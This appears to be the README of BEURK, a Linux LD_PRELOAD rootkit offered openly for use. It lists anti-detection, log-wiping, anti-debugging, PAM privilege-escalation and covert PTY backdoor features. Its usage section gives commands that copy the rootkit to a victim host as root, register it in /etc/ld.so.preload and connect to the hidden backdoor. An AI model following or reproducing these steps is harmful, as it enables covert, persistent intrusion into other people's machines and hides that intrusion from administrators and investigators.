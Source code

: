 BEURK
=====
[Getting Started] | [API Documentation] | [Contributing] | [TODO List]

[![Build Status](https://travis-ci.org/unix-thrust/beurk.svg?branch=master)](https://travis-ci.org/unix-thrust/beurk)
[![Ready Issues](https://badge.waffle.io/unix-thrust/beurk.svg?label=Ready&title=Ready-Issues)](https://waffle.io/unix-thrust/beurk)
[![Coverage Status](https://img.shields.io/coveralls/unix-thrust/beurk.svg)](https://coveralls.io/r/unix-thrust/beurk)
[![Coverity Scan Build](https://img.shields.io/coverity/scan/4866.svg)](https://scan.coverity.com/projects/4866)
[![Join the chat at https://gitter.im/unix-thrust/beurk](https://badges.gitter.im/Join%20Chat.svg)](https://gitter.im/unix-thrust/beurk)

**BEURK** is an userland [preload rootkit] for GNU/Linux, heavily focused
around anti-debugging and anti-detection.

> _**S'ils savaient, ils vomiraient ...**_
>
> *- The core team -*

-------------------------------------------------------------------------------

### Features ###
- Hide attacker files and directories
- Realtime log cleanup (on [utmp/wtmp])
- Anti process and login detection
- [ptrace(2)] hooking for anti-debugging
- [libpcap] hooking undermines local sniffers
- Bypass unhide, lsof, ps, ldd, netstat analysis
- PAM backdoor for *local privilege escalation*
- Furtive PTY backdoor client

### Usage ###
* **Compile**
```sh
    git clone https://github.com/unix-thrust/beurk.git
    cd beurk
    ./build beurk.conf
```
* **Install**
```sh
    scp libselinux.so root@victim.com:/lib/
    ssh root@victim.com 'echo /lib/libselinux.so >> /etc/ld.so.preload'
```
* **Enjoy !**
```sh
    ./client victim_ip:port # connect with furtive backdoor
```

### Dependencies ###

The following packages are required in order to build BEURK:

* **libpcap** - to avoid local sniffing
* **libpam** - for local PAM backdoor
* **libssl** - for encrypted backdoor connection

**Example on debian:**
```sh
    apt-get install libpcap-dev libpam-dev libssl-dev
```

-------------------------------------------------------------------------------

[![Throughput Graph](https://graphs.waffle.io/unix-thrust/beurk/throughput.svg)](https://waffle.io/unix-thrust/beurk/metrics)

* _**BEURK v 1.0 is in active development,**_
_**please checkout current [development branch].**_

> NOTE: **BEURK** is a recursive acronym for
> **B**EURK **E**xperimental **U**nix **R**oot **K**it

-------------------------------------------------------------------------------

[Getting Started]: https://github.com/unix-thrust/beurk/wiki
[API Documentation]: https://github.com/unix-thrust/beurk/wiki/API-Documentation
[TODO List]: https://github.com/unix-thrust/beurk/blob/master/TODO.md
[Contributing]: https://github.com/unix-thrust/beurk/blob/master/CONTRIBUTING.md

[preload rootkit]: http://volatility-labs.blogspot.fr/2012/09/movp-24-analyzing-jynx-rootkit-and.html
[utmp/wtmp]: http://man7.org/linux/man-pages/man5/utmp.5.html
[ptrace(2)]: http://man7.org/linux/man-pages/man2/ptrace.2.html
[libpcap]: http://en.wikipedia.org/wiki/Pcap#libpcap
[development branch]: https://github.com/unix-thrust/beurk/tree/dev
